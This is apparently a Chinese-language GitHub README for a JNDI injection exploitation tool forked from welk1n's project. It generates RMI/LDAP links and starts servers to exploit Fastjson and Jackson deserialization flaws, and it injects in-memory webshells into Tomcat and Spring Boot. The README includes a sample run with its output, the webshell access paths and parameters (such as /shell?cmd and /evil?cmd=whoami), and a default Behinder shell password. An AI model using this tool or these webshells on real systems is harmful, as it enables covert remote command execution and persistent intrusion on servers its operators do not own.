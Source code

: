 ## 介绍

JNDI注入利用工具，生成JNDI链接并启动后端相关服务，可用于Fastjson、Jackson等相关漏洞的验证。

最开始做项目的初衷是因为，遇到一些场景只能用RMI注入，无法使用LDAP注入，但是找了一段的时间之后发现Github中并没有很合心意的RMI注入工具，于是原本想自己做一个RMI注入内存马的工具，参考了一下welk1n佬的项目，结果发现佬写的精妙，可以改动的地方很少了已经，索性直接fork大佬的项目，添加工具。
原仓库地址：https://github.com/welk1n/JNDI-Injection-Exploit

冰蝎内存🐴默认密码:elysium

## 更新功能

### 内存马注入

直接运行jar包，可以看到添加了Tomcat Memshell、Behinder两种内存马（还在更新中）

```shell
$ java -jar JNDI-Injection-Memshell-1.0-SNAPSHOT-all.jar          
[ADDRESS] >> 127.0.0.1
[COMMAND] >> open -a Calculator
----------------------------JNDI Links---------------------------- 
Target environment(Behinder Filter Memshell):
rmi://127.0.0.1:1099/0gzbmk
ldap://127.0.0.1:1389/0gzbmk
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://127.0.0.1:1099/q7empz
ldap://127.0.0.1:1389/q7empz
Target environment(Tomcat Servlet Memshell):
rmi://127.0.0.1:1099/knesin
ldap://127.0.0.1:1389/knesin
Target environment(Behinder Servlet Memshell):
rmi://127.0.0.1:1099/gfco3c
ldap://127.0.0.1:1389/gfco3c
Target environment(Build in JDK whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):
rmi://127.0.0.1:1099/emytl0
Target environment(Springboot Interceptor Memshell):
rmi://127.0.0.1:1099/jdky8b
ldap://127.0.0.1:1389/jdky8b
Target environment(Springboot Interceptor Behinder Memshell):
rmi://127.0.0.1:1099/4mpkre
ldap://127.0.0.1:1389/4mpkre
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://127.0.0.1:1099/3uzhzd
ldap://127.0.0.1:1389/3uzhzd
Target environment(Tomcat Filter Memshell):
rmi://127.0.0.1:1099/93hurt
ldap://127.0.0.1:1389/93hurt

----------------------------Server Log----------------------------
2023-08-29 13:00:30 [JETTYSERVER]>> Listening on 0.0.0.0:8180
2023-08-29 13:00:30 [RMISERVER]  >> Listening on 0.0.0.0:1099
2023-08-29 13:00:31 [LDAPSERVER] >> Listening on 0.0.0.0:1389
```

- Tomcat Servlet Memshell

  - 命令执行Servlet内存马：路径/shell，参数cmd

    ![](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/1.jpg)

- Behinder Servlet Memshell

  - 冰蝎Servlet内存马：路径/shell，密码:elysium

    ![](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/2.jpg)

- Springboot interceptor Memshell
  - springboot的拦截器内存马，在request header中的command为入参执行命令

    ![](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/3.jpg)
	
- Springboot interceptor Behinder Memshell:
  
	- springboot拦截器冰蝎内存马，在request header中的shell参数中跟上Behinder，输入密码即可连接
	
	![ ](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/4.jpg)

- Tomcat Filter Memshell:
  - Tomcat filter内存马，在访问路径/evil?cmd=whoami，可以执行命令
    ![ ](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/5.jpg)

- Behinder Filter Memshell:
  - Behinder filter内存马，访问路径/behinderFilter,并在request header中的shell参数中跟上Behinder，输入密码即可连接
    ![ ](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/6.jpg)
    
## Tips:

Q:为什么有了Servlet/Controller内存马还是需要Interceptor内存马呢？

A:如果服务端存在拦截器，指定如果未登录的状态除了/login接口其他都不执行，访问就会跳转回/login接口的话。这个controller的内存马不就访问不到了吗？访问不到就形同虚设了。所以controller的内存马并不能作为一种通用的内存马进行注入，于是就需要注入interceptor内存马了。

## 待实现

- 添加~~filter~~、~~Interceptor~~类型的内存马。
- 融合groovy的bypass利用链到项目中。
- 更新weblogic以及其他中间件的内存马注入环境
- 增加注入哥斯拉内存马的模块
- 加入websocket内存马



## Star History

[![Star History Chart](https://api.star-history.com/svg?repos=MUYU212/JNDI-Injection-Memshell&type=Date)](https://star-history.com/#MUYU212/JNDI-Injection-Memshell&Date)
